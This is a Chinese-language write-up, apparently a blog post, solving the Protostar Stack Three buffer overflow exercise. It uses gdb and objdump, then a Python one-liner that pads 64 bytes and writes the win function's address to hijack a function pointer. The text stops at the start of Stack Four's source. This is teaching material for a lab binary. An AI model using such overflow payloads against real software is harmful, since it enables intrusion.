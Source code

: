 我们在0x08048471地址处下一个断点
~~~
b *0x08048471 
~~~
然后设置一下自动运行的命令
~~~
define hook-stop
info registers   //显示寄存器里的地址
x/24wx $esp      //显示esp寄存器里的内容
x/2i $eip        //显示eip寄存器里的内容
end              //结束
~~~
![在这里插入图片描述](https://img-blog.csdnimg.cn/03d6964e3ef74a61af0e7db0ee455f9f.png)

运行程序，由于if判断，fp的值不能为零才能进入if判断，但是程序设置的fp的值为0，我们先输入一长串的垃圾字符，覆盖原来的值

![在这里插入图片描述](https://img-blog.csdnimg.cn/3c879d390dc8483a86e233883bd09bff.png)

查看esp+0x5c地址处的值
~~~
x/wx $esp+0x5c
~~~
![在这里插入图片描述](https://img-blog.csdnimg.cn/cbfb1bfc94da4cc5b26e7ad3a6918533.png)

fp函数指针的值就在图中圈出来的地方，根据计算，我们需要64个字符+win函数地址才能控制fp函数指针

这时候我们可以用objdump工具来查看win函数地址
~~~
objdump -x stack3 | grep win
~~~
![在这里插入图片描述](https://img-blog.csdnimg.cn/c5c5d7961f444f9984e59b713e4b9809.png)

或者直接使用gdb直接查看win函数就能知道地址
~~~
disassemble win
~~~
![在这里插入图片描述](https://img-blog.csdnimg.cn/1be35a8680c640608037303ca50d5bed.png)

两个方法都能用

 知道了win函数地址后，直接运行以下命令就能破解程序
~~~
64个垃圾字符+win函数地址
python -c "print('A'*(4*16)+'\x24\x84\x04\x08')" | ./stack3
~~~
![在这里插入图片描述](https://img-blog.csdnimg.cn/7112b39119de4369b0dcc53fd42e5e3f.png)

# Stack Four
## 程序静态分析
~~~
https://exploit.education/protostar/stack-four/
~~~
![在这里插入图片描述](https://img-blog.csdnimg.cn/b3451f0f07d94150a358ea9d4e258192.png)
~~~
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

~~~